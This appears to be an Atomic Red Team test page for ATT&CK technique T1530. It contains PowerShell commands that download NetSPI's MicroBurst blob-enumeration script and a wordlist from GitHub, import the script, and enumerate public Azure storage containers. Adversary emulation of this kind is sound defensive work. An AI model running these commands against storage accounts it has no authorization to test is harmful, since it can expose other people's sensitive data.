 # T1530 - Data from Cloud Storage Object
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1530)
<blockquote>Adversaries may access data objects from improperly secured cloud storage.

Many cloud service providers offer solutions for online data storage such as Amazon S3, Azure Storage, and Google Cloud Storage. These solutions differ from other storage solutions (such as SQL or Elasticsearch) in that there is no overarching application. Data from these solutions can be retrieved directly using the cloud provider's APIs. Solution providers typically offer security guides to help end users configure systems.(Citation: Amazon S3 Security, 2019)(Citation: Microsoft Azure Storage Security, 2019)(Citation: Google Cloud Storage Best Practices, 2019)

Misconfiguration by end users is a common problem. There have been numerous incidents where cloud storage has been improperly secured (typically by unintentionally allowing public access by unauthenticated users or overly-broad access by all users), allowing open access to credit cards, personally identifiable information, medical records, and other sensitive information.(Citation: Trend Micro S3 Exposed PII, 2017)(Citation: Wired Magecart S3 Buckets, 2019)(Citation: HIPAA Journal S3 Breach, 2017) Adversaries may also obtain leaked credentials in source repositories, logs, or other means as a way to gain access to cloud storage objects that have access permission controls.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Azure - Enumerate Azure Blobs with MicroBurst](#atomic-test-1---azure---enumerate-azure-blobs-with-microburst)


<br/>

## Atomic Test #1 - Azure - Enumerate Azure Blobs with MicroBurst
Upon successful execution, this test will utilize a wordlist to enumerate the public facing containers and blobs of a specified Azure storage account. 
See https://www.netspi.com/blog/technical/cloud-penetration-testing/anonymously-enumerating-azure-file-resources/ .

**Supported Platforms:** Iaas:azure


**auto_generated_guid:** 3dab4bcc-667f-4459-aea7-4162dd2d6590





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| base | Azure blob keyword to enumerate (Example, storage account name) | String | secure|
| output_file | File to output results to | String | $env:temp&#92;T1530Test1.txt|
| wordlist | File path to keywords for search permutations | String | $env:temp&#92;permutations.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
import-module "$env:temp\Invoke-EnumerateAzureBlobs.ps1"
Invoke-EnumerateAzureBlobs -base #{base} -permutations #{wordlist} -outputfile "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: The Invoke-EnumerateAzureBlobs module must exist in $env:temp.
##### Check Prereq Commands:
```powershell
if (test-path $env:temp\Invoke-EnumerateAzureBlobs.ps1){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/156c4e9f4253b482b2b68eda4651116b9f0f2e17/Misc/Invoke-EnumerateAzureBlobs.ps1" -outfile "$env:temp\Invoke-EnumerateAzureBlobs.ps1"
```
##### Description: The wordlist file for search permutations must exist in $env:temp.
##### Check Prereq Commands:
```powershell
if (test-path #{wordlist}){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
invoke-webrequest "https://raw.githubusercontent.com/NetSPI/MicroBurst/156c4e9f4253b482b2b68eda4651116b9f0f2e17/Misc/permutations.txt" -outfile "#{wordlist}"
```




<br/>
